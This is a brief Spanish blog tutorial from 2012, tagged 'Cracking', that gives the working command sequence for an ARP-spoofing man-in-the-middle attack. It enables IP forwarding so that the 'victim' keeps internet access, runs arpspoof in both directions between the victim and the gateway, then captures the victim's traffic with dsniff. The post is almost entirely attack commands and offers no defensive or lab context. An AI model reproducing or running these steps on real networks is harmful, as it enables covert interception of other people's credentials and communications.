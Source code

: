 Title: Tutorial ARPSpoofing con Dsniff
Date: 2012-09-14 22:48
Author: ramborg
Category: Systems
Tags: Cracking
Slug: tutorial-arpspoofing-con-dsniff

Primero hacemos que nuestro pc redireccione el trafico, para que la
victima no se quede sin internet

    sudo sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"

    Y luego hacemos el arpSoofing

*\#arpspoof -t [gateway IP] [Victim IP] & \>/dev/null*

*\#arpspoof -t [victim IP] [gateway IP] & \>/dev/nul*l

Y al final vemos el trafico, con wireshark o con...

*\#dsniff eth0*[eth\# is depend your setting, because your sniffing your
own box.]

 

Fuentes:

[http://www.irongeek.com/i.php?page=security/arpspoof][]

<http://whiskeycola.wordpress.com/2008/05/10/arpspoof-and-dsniff-teach-a-basic-sniffing/>

  [http://www.irongeek.com/i.php?page=security/arpspoof]: http://whiskeycola.wordpress.com/2008/05/10/arpspoof-and-dsniff-teach-a-basic-sniffing/
